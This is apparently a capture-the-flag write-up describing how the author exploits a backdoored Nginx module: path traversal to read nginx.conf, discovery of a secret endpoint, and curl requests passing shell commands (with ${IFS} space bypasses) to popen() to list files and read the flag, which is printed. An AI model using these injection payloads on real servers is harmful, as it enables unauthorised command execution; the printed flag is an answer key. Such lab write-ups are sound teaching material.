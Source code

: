 Description:

![Screenshot](images/trainee-desc.png)

The trainee made a weird commit that’s flooding the server with requests—and eventually blocking connections. We’re hinted that something strange is lurking in their Nginx setup.



As soon as we connect we have a file reader form.
I stared with a whatweb

![Screenshot](images/trainee-whatweb.png)

With this we know the backend runs a Nginx 1.24.0.
I tried to research for a file like a file.txt, example.txt localhost and /etc/nginx because of what could be anginx misconfiguration.

I tried then a normal path traversal because was the most coherent and no brainer exploit in this case.

![Screenshot](images/trainee-lfi1.png)


And luckily I saw right.

![Screenshot](images/trainee-lfi1-res.png)


Digging through /etc/nginx/nginx.conf I eventually ran into:

![Screenshot](images/trainee-pivot!.png)

As we can see we there is a endpoint introduced by the trainee
```url
/Th1s_3ndp0int_1s_S3cr3t
```

Visiting that endpoint carved out from the trainee’s module gave me the source path:
```url
/usr/local/src/root-me-backdoor/ngx_http_root_me_backdoor_module.c
````

And when I visited the endpoint I found a file with 2 imporant lines:
```C
ngx_str_t param_name = ngx_string("r00t-m3.backd0or");
```
and
```C
fp = popen(command, "r");
```
If you send a GET parameter named r00t-m3.backd0or, its value is fed straight into popen().

First RCE test with `id`
```json
 curl -G 'http://node2.challenges.ctf20k.root-me.org:31669/Th1s_3ndp0int_1s_S3cr3t' \
     --data-urlencode 'r00t-m3.backd0or=id'

uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
```

After that, i tried to explore a lil bit like:

```url
r00t-m3.backd0or=echo${IFS}$(ls)'
r00t-m3.backd0or=echo${IFS}$(ls${IFS}../)'
```

And i stumbled upon this file
```bash
/flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d
```

And with a Curl
```bash
curl 'http://node3.challenges.ctf20k.root-me.org:34394/Th1s_3ndp0int_1s_S3cr3t?\
r00t-m3.backd0or=cat${IFS}</flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d'
```

And here is the flag
```url
RM{My_Tr4inee_B4ckd00r_My_Ng1nx}
```
